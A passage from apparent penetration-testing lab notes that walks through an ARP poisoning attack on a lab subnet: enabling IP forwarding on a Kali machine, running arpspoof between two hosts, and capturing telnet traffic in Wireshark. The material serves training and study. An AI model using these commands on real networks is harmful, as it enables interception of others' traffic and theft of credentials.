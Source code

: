 ![nmap 10.100.13.0/24](.gitbook/assets/image-20230324125014246.png)

### ARP Poisoning Attack

- To see traffic of other machines, configure Kali Attacker VM to forward IP packets

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- Start the ARP poisoning attack with the [**`arpspoof`**](https://www.kali.org/tools/dsniff/#arpspoof) tool

```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
# -t = target
# -r = host
```

- Open `Wireshark` and start capture `eth1` traffic
  - Apply `telnet` filter
